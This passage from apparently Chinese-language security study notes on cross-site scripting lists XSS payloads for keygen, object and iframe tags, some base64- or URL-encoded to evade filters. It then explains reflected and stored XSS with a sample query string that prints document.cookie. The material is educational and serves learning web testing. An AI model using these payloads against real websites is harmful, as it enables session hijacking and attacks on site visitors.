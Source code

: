 - **keygen标签**

  ```html
  <keygen/onfocus=prompt(1);>
  <keygen onfocus=javascript:alert(1) autofocus>
  ```

- **object标签**

  ```html
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  
  base64
  编码：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
  解码：<script>alert(1)</script>
  ```

- **iframe标签**

  ```html
  <IFRAME width%3d"420" height%3d"315" frameborder%3d"0" onload%3d"alert(document.cookie)"><%2fIFRAME>
  <iframe%2fsrc%3d"data%3atext%2fhtml%3b%26Tab%3bbase64%26Tab%3b,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg%3d%3d">
  <iframe srcdoc%3d'%26lt%3bbody onload%3dprompt%26lpar%3b1%26rpar%3b%26gt%3b'>
  ```

## 分类

### 反弹型 XSS（非持续型）

过程：参数x=xss 发包 => 携带该参数执行index.php（XSS在前端执行）=> 回包

反射型 XSS 是指恶意的<u>攻击脚本包含在 **URL** 中</u>，<u>只有当用户主动访问了包含恶意脚本的 URL，脚本才会被成功执行</u>。反射型的攻击，**攻击脚本经过后台服务器，但是不会写入网站的数据库，是一次性的攻击**，所以黑客一般需要诱骗用户点击包含攻击脚本的 URL（钓鱼邮件），才能攻击成功。

比如在get请求中构造攻击语句，输出用户在该网站的cookie：

`?name="><script>alert(document.cookie)</script>`（name参数为数值的话就不加引号）

该语句输出到页面的HTML就变为：

```
<input type="text" name="name" value=""><script>alert(document.cookie)</script>">
```

![image-20220728163239269](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728163239269.png)

### 存储型 XSS（持续型）

过程：参数x=xss 发包 => 携带该参数执行index.php => XSS被写入数据库 => 他人访问页面执行index.php => 回包（XSS在前端被执行） 

存储型 XSS 则是<u>把攻击脚本提交到网站 **后台数据库**，只要有人访问了显示该数据内容的页面，就会被攻击</u>。存储型XSS又称持久型XSS，**攻击脚本将被永久地存放在目标服务器的数据库或文件中**，可能存在于一些我们信任的网站，具有很高的隐蔽性。

攻击方式：这种攻击<u>多见于论坛、博客和留言板</u>，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入帖子的内容中。随着帖子被服务器存储下来，恶意脚本也永久地被存放在服务器的后端存储器中。当其他用户浏览这个被注入了恶意脚本的帖子时，恶意脚本会在他们的浏览器中得到执行。
